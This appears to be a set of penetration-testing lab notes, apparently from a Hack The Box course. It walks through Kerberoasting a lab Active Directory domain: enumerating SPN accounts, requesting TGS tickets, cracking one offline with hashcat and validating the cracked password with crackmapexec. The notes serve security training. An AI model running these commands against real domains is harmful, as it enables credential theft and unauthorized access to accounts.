 ## Kerberoasting with GetUserSPNs.py
## Listing SPN Accounts with GetUserSPNs.py

```bash
Yashfren@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```
## Requesting all TGS Tickets

```bash
Yashfren@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request
``` 
## Requesting a Single TGS ticket

```bash
Yashfren@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```
## Saving the TGS Ticket to an Output File
  
```bash
Yashfren@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
```
## Cracking the Ticket Offline with Hashcat

```bash
Yashfren@htb[/htb]$ hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt
``` 
## Testing Authentication against a Domain Controller

```bash
Yashfren@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!
```